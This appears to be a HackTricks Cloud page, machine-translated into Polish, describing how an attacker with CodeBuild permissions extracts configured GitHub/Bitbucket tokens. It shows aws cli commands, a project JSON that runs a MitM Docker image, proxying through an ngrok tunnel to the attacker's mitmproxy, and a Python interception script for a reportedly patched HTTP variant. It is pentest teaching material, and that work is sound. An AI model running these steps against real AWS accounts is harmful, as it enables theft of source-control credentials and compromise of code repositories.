 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Odzyskiwanie skonfigurowanych tokenów Github/Bitbucket

Najpierw sprawdź, czy są skonfigurowane jakiekolwiek poświadczenia źródłowe, które możesz wyciekować:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Jeśli stwierdzisz, że uwierzytelnienie do na przykład Github jest ustawione w koncie, możesz **ekstrahować** ten **dostęp** (**token GH lub token OAuth**) poprzez sprawienie, że Codebuild **użyje konkretnego obrazu docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Docker**.

Obraz Docker, którego możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). To bardzo podstawowy obraz Docker, który ustawi **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. To pozwoli ci przechwycić większość ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufać certyfikatowi SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i prześlij swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić swój adres IP proxy i ustawić swój certyfikat SSL oraz **zbudować obraz docker**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444`, aby ustawić proxy do swojego hosta.
* Gdy masz zbudowany obraz Docker, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...)
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt, aby używał **wcześniej wygenerowanego obrazu Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM w swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Wersja **mitmproxy używana to 9.0.1**, zgłoszono, że w wersji 10 może to nie działać.
{% endhint %}

4. **Uruchom budowę i przechwyć dane uwierzytelniające**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić z aws cli za pomocą czegoś takiego

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Ta luka została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (myślę, że w piątek). Więc atakujący nie może już tego nadużywać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógłby ujawnić token Github/Bitbucket** skonfigurowany lub jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do uzyskania dostępu do kodu**.

* Atakujący mógłby dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazujące na jego maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie zmienić URL repozytorium github, aby używał HTTP zamiast HTTPS, na przykład: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Następnie uruchomić podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** zostaną **wysłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojej maszyny, wylistować wszystkie posiadane uprawnienia i (nadużywać) łatwiej niż korzystając bezpośrednio z usługi CodeBuild.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
